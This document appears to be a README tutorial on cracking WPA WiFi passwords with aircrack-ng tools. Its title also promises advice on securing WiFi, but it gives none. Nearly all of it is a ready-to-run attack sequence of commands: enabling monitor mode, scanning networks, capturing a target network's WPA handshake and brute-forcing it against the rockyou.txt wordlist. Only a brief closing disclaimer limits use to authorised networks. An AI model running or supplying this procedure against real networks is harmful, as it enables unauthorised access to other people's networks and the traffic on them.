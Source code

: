
# 🔐 Crack WiFi Password || How to Secure Your WiFi

## 🛠 Prerequisites
- A WiFi adapter that supports **monitor mode** (or an internal adapter if supported).
- Linux-based system.

## 🚀 Steps to Crack WiFi Password

### 1️⃣ Setting Up the Environment

1. Switch to the root user:
   ```bash
   sudo su
   ```

2. Kill processes interfering with monitor mode:
   ```bash
   airmon-ng check kill  
   ```
   *This will display process IDs (PIDs).*

3. Identify your WiFi adapter and mode:
   ```bash
   iwconfig
   ```
   *You’ll see the adapter name (e.g., `wlan0`) and its mode (default is Managed).*

4. Enable monitor mode:
   ```bash
   iwconfig wlan0 mode monitor
   ```
   *The mode will now change to Monitor.*

---

### 2️⃣ Scanning for WiFi Networks

5. Use **airodump-ng** to view available networks:
   ```bash
   airodump-ng wlan0
   ```
   *If no networks appear, you might need a different adapter that supports monitor mode.*

---

### 3️⃣ Capturing the WPA Handshake

6. Target a network for attack:
   - Replace `-c` with the channel number.
   - Replace `--bssid` with the target’s BSSID.
   ```bash
   airodump-ng -c (Channel) --bssid (BSSID) -w psk wlan0
   ```
   *Wait until you capture the WPA handshake.*

7. Verify the capture:
   ```bash
   ls
   ```
   *Look for the captured file in `.cap` format.*

---

### 4️⃣ Cracking the Password

8. Locate the Linux wordlist file (`rockyou.txt`):
   ```bash
   locate rockyou.txt
   ```

9. Run Aircrack-ng to crack the password:
   ```bash
   aircrack-ng -w (Wordlist Path) -b (BSSID) psk-01.cap
   ```
   *The password will be displayed upon success.*

---

### 5️⃣ Restoring Managed Mode

10. Disable monitor mode and reconnect to WiFi:
    ```bash
    sudo ifconfig wlan0 down
    iwconfig wlan0 mode managed
    sudo ifconfig wlan0 up
    service NetworkManager restart
    ```

---

## 🚨 Important Notes
- Use these techniques **only** on networks you own or have explicit permission to test.
- Misuse for illegal purposes is strictly prohibited.
